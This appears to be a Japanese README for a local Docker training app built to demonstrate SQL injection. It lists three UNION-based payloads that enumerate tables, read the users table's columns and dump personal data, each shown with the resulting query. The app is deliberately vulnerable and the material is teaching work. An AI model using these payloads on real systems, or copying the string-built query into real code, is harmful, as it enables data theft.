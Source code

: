 # SQLインジェクションサンプル

SQLインジェクションを実感できるサンプル

## requirements
- docker
- docker compose

## installation
```sh
docker compose up -d
```

上記コマンドでサーバを立ち上げることで、 http://localhost:8000 にアクセスするとページが表示されます。

## インジェクション体験
### ページ概要

<img width="389" alt="image" src="https://user-images.githubusercontent.com/9111423/137260754-59f4a5b7-40b9-447a-851d-09dc042703a6.png">

このサンプルページは、製品を一覧表示するページです。  
このページでは、以下のSQLが実行されています。

```sql
SELECT * FROM products
```

また、製品名をフォームで送信することで、以下のSQLにより検索結果の絞り込みができます。 `{name}` には入力した値が入ります。

```sql
SELECT * FROM products WHERE name LIKE '%{name}%'
```

### テーブルの一覧を取得する
フォームに以下の値を入力することで、テーブルの一覧を取得できます。

```
' UNION SELECT TABLE_SCHEMA, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = DATABASE() -- 
```

実行すると以下のような結果になります。

<img width="398" alt="image" src="https://user-images.githubusercontent.com/9111423/137260878-b6fed6c1-0ae8-4f3e-9d69-98afa49ce556.png">


使用しているデータベース名(test)と、テーブル名のリスト(products, users)が表示されました。  
よって、このデータベースでは `users` というテーブルがあることが確認できました。

このとき、実行されたSQLはこのようになります。

```sql
SELECT * FROM products WHERE name LIKE '%'
UNION
SELECT TABLE_SCHEMA, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = DATABASE()
-- %'
```

### users テーブルの構造を取得する
同様の方法で、 users テーブルの構造を取得できます。

```
' UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'users' AND TABLE_SCHEMA = 'test' -- 
```

<img width="370" alt="image" src="https://user-images.githubusercontent.com/9111423/137260994-02888285-6a6e-4693-a49d-e91d2aa5876e.png">

`users` テーブルにあるカラムがわかりました。

このとき、実行されたSQLはこのようになります。

```sql
SELECT * FROM products WHERE name LIKE '%'
UNION
SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'users' AND TABLE_SCHEMA = 'test'
-- %'
```

### users テーブルの情報を取得する
テーブル名とテーブルの構造がすでに把握できたので、簡単に `users` テーブルの中身を表示できます。

```
' UNION SELECT name, department FROM users -- 
```

<img width="364" alt="image" src="https://user-images.githubusercontent.com/9111423/137261111-9277aa95-1c4b-4f03-85cc-2d7b4ddc2718.png">

個人情報を取得することができました。

このとき、実行されたSQLはこのようになります。

```sql
SELECT * FROM products WHERE name LIKE '%'
UNION
SELECT name, department FROM users
-- %'
```
